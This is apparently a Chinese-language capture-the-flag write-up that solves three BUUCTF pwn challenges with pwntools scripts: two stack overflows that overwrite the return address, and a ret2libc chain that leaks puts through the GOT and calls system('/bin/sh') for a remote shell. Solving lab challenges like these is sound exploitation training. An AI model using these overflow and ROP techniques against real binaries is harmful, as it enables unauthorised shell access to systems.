 # rip
根据IDA加载入main函数声明发现s数组距离`rbp`的距离为F，即为15，这里的运行环境是64位，所以应当将`Caller's rbp`的数据填满，在这里是8位，即可构造payload
```python
from pwn import *
p=remote("node4.buuoj.cn", 25401)
#p=process("./pwn1")
payload=b'a'*15+b'b'*8+p64(0x401186+1)
p.sendline(payload)
p.interactive()
```
# jarvisoj_level0
打开IDA主函数两条命令，很明显可利用漏洞就在`vulnerable_function`函数内，进入后看到buf很明显距离rbp有0x80位，再加上64位机多出来的8位，即覆盖`0x80+0x8`即可覆盖，另外有`callsystem`函数作为漏洞执行入口
```python
from pwn import *
p=remote("node4.buuoj.cn", 27716)
#p=process("./level0")
payload=b'a'*136+p64(0x400596)
#p.sendline(payload)
p.sendlineafter('Hello, World\n',payload)
p.interactive()
```

# ciscn_2019_c_1
```python
from pwn import *
from LibcSearcher import *
p=remote("node4.buuoj.cn", 27706)
#p=process("./ciscn_2019_c_1")
elf=ELF("./ciscn_2019_c_1")
main=0x400b28
rdi=0x400c83
ret=0x4006b9
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
p.sendlineafter('Input your choice!\n', '1')
payload=b'\0'+b'a'*(0x50-1+8)+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
p.sendlineafter('Input your Plaintext to be encrypted\n', payload)
p.recvline()
p.recvline()
puts_addr=u64(p.recvuntil('\n')[:-1].ljust(8, b'\0'))#得到puts函数的地址
libc=LibcSearcher("puts", puts_addr)
libc_base=puts_addr-libc.dump("puts")
sys_addr=libc_base+libc.dump("system")
binsh=libc_base+libc.dump("str_bin_sh")
p.sendlineafter('choice!\n', '1')
payload=b'\0'+b'a'*(0x50-1+8)+p64(ret)+p64(rdi)+p64(binsh)+p64(sys_addr)
#p.sendline(payload)
p.sendlineafter('encrypted\n',payload)
p.interactive()
```
经过暴力循环测试法，测得最终的libc版本为`libc6_2.27-0ubuntu3_amd64`，然后即可打通本poc